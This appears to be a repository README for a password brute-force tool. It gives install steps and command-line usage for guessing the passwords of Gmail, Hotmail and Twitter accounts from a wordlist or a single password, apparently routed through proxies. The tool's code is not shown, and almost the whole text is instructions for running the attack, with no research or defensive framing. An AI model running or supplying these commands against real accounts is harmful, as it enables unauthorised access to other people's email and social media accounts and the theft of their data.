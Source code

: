 # Brute_Force
![alt text](https://1.top4top.net/p_128839jbv1.png)

# install :

pip install proxylist

pip install mechanize


Usage:

# Bruteforce Gmail 

python3 Brute_Force.py -g Account@gmail.com -l File_list

python3 Brute_Force.py -g Account@gmail.com -p Password_Single


# Bruteforce Hotmail
 
python3 Brute_Force.py -t Account@hotmail.com -l File_list

python3 Brute_Force.py -t Account@hotmail.com -p Password_Single


# Bruteforce Twitter

python3 Brute_Force.py -T Account_Twitter -l File_list
